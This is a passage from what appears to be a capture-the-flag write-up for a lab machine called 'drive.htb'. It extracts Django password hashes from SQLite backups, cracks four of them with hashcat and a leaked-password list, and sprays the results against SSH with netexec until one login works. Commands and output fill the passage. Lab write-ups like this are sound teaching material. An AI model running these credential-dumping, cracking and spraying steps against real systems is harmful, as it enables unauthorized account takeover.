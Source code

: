 The BCrypt hashes (start with `pbkdf2`) are going to be very difficult to crack. I’ll start with the others. There are eight unique hashes, four of which belong to tom:

```

martin@drive:/dev/shm$ ls | while read db; do echo "$db"; sqlite3 "$db" 'select username,password from accounts_customuser;'; done | grep sha1 | sort -u | tr '|' ':'
admin:sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
crisDisel:sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
jamesMason:sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
martinCruz:sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
tomHands:sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
tomHands:sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141

```

### Crack Passwords

I’ll take the usernames and hashes from the backup DB and send them through `hashcat`:

```

$ hashcat hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
                                               
124 | Django (SHA-1) | Framework
...[snip]...
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
...[snip]...

```

All four passwords for tomHands crack.

### SSH

#### Identify Password

To quickly check is any of these work over SSH, I’ll create a text file with one per line, and feed it to `netexec`:

```

oxdf@hacky$ netexec ssh drive.htb -u tom -p tom_passwords 
SSH         10.10.11.235    22     drive.htb        [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.235    22     drive.htb        [-] tom:john316 Authentication failed.
SSH         10.10.11.235    22     drive.htb        [-] tom:john boy Authentication failed.
SSH         10.10.11.235    22     drive.htb        [-] tom:johniscool Authentication failed.
SSH         10.10.11.235    22     drive.htb        [+] tom:johnmayer7  - shell access!

```
